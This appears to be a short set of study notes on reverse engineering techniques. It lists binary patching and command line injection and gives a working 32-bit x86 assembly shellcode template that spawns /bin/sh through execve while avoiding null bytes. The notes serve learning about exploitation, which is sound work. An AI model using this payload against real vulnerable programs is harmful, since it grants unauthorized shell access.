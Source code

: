 # Common Techniques
These are many common techniques used in different reverse engineering problems.
## Binary Patching
## Command Line Injection
  - changing system file paths
## Shellcode
  - execve(sh, argv, envp): executes the shell
    - sh: is the file
    - argv: multiple argument vector
    - envp: environment variable vector
  - vector in C is ended with NULL to tell how many items are in the vector
  -  don't `use mov eax, 0` don't want a null byte in the payload
  -  al is the lowest byte of eax
  -  envp will be the second element of argv
  -  useful template for shellcode
``` 
#include <sys/syscall.h> 
#define STRING  "/bin/sh"
#define STRLEN  7
#define ARGV    (STRLEN+1)
#define ENVP    (ARGV+4)

.intel_syntax noprefix
.text

.globl main
.type  main, @function

main:
  jmp     calladdr

popladdr:
  pop    esi                    /* esi points to STRING */
  mov    [ARGV+esi],esi         /* set up argv[0] pointer to pathname */
  xor    eax,eax                /* get a 32-bit zero value */
  mov    [STRLEN + esi],al      /* null-terminate our string */
  mov    [ENVP + esi], eax      /* set up null envp */

  mov    al,SYS_execve          /* syscall number */
  mov    ebx,esi                /* arg 1: string pathname */
  lea    ecx,[ARGV + esi]       /* arg 2: argv */
  lea    edx,[ENVP + esi]       /* arg 3: envp */
  int    0x80                   /* execve("/bin/sh", ["/bin/sh", NULL], [NULL]) */

  xor    ebx,ebx                /* arg 1: 0 */
  mov    eax,ebx
  inc    eax                    /* exit(0) */
  /* mov+inc to avoid null byte */
  int    0x80                   /* invoke syscall */

calladdr:
  call    popladdr
  .string STRING ```
